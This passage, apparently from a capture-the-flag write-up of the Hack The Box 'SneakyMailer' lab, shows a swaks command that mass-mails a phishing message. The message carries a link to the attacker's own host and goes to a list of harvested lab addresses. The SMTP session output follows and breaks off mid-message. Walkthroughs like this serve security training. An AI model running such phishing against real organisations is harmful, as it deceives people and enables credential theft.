 Given the theme of this box, it makes sense to use the list of emails to
send a phish. I used `swaks` just like in [Endgame:
Xen](/endgame-xen.md#phishing-for-creds). I can include a
list of recipients with the `--to` options, comma separated:



    root@kali# swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
    === Trying 10.10.10.197:25...                 
    === Connected to 10.10.10.197.           
    <-  220 debian ESMTP Postfix (Debian/GNU)    
     -> EHLO kali                                  
    <-  250-debian                                   
    <-  250-PIPELINING                            
    <-  250-SIZE 10240000                            
    <-  250-VRFY                                
    <-  250-ETRN                               
    <-  250-STARTTLS                          
    <-  250-ENHANCEDSTATUSCODES               
    <-  250-8BITMIME                              
    <-  250-DSN                                 
    <-  250-SMTPUTF8                                  
    <-  250 CHUNKING                            
     -> MAIL FROM:<test@sneakymailer.htb>       
    <-  250 2.1.0 Ok                            
     -> RCPT TO:<tigernixon@sneakymailer.htb>
    <-  250 2.1.5 Ok
     -> RCPT TO:<garrettwinters@sneakymailer.htb>
    <-  250 2.1.5 Ok
     -> RCPT TO:<ashtoncox@sneakymailer.htb>
    <-  250 2.1.5 Ok
    ...[snip]...
     -> RCPT TO:<donnasnider@sneakymailer.htb>
    <-  250 2.1.5 Ok
     -> DATA
    <-  354 End data with <CR><LF>.<CR><LF>
     -> Date: Sun, 12 Jul 2020 10:55:55 -0400
     -> To: tigernixon@sneakymailer.htb,garrettwinters@sneakymailer.htb,ashtoncox@sneakymailer.htb,cedrickelly@sneakymailer.htb,airisatou@sneakymailer.htb,briellewilliamson@sneakymailer.htb,herrodchandler@sneakymailer.htb,rhonadavidson@sne
    akymailer.htb,colleenhurst@sneakymailer.htb,sonyafrost@sneakymailer.htb,jenagaines@sneakymailer.htb,quinnflynn@sneakymailer.htb,chardemarshall@sneakymailer.htb,haleykennedy@sneakymailer.htb,tatyanafitzpatrick@sneakymailer.htb,michaelsi
    lva@sneakymailer.htb,paulbyrd@sneakymailer.htb,glorialittle@sneakymailer.htb,bradleygreer@sneakymailer.htb,dairios@sneakymailer.htb,jenettecaldwell@sneakymailer.htb,yuriberry@sneakymailer.htb,caesarvance@sneakymailer.htb,doriswilder@sn
    eakymailer.htb,angelicaramos@sneakymailer.htb,gavinjoyce@sneakymailer.htb,jenniferchang@sneakymailer.htb,brendenwagner@sneakymailer.htb,fionagreen@sneakymailer.htb,shouitou@sneakymailer.htb,michellehouse@sneakymailer.htb,sukiburks@snea
    kymailer.htb,prescottbartlett@sneakymailer.htb,gavincortez@sneakymailer.htb,martenamccray@sneakymailer.htb,unitybutler@sneakymailer.htb,howardhatfield@sneakymailer.htb,hopefuentes@sneakymailer.htb,vivianharrell@sneakymailer.htb,timothy
    mooney@sneakymailer.htb,jacksonbradshaw@sneakymailer.htb,olivialiang@sneakymailer.htb,brunonash@sneakymailer.htb,sakurayamamoto@sneakymailer.htb,thorwalton@sneakymailer.htb,finncamacho@sneakymailer.htb,sergebaldwin@sneakymailer.htb,zen
    aidafrank@sneakymailer.htb,zoritaserrano@sneakymailer.htb,jenniferacosta@sneakymailer.htb,carastevens@sneakymailer.htb,hermionebutler@sneakymailer.htb,laelgreer@sneakymailer.htb,jonasalexander@sneakymailer.htb,shaddecker@sneakymailer.h
    tb,sulcud@sneakymailer.htb,donnasnider@sneakymailer.htb,
     -> From: test@sneakymailer.htb
     -> Subject: test
     -> Message-Id: <20200712105555.099308@kali>
     -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
     -> 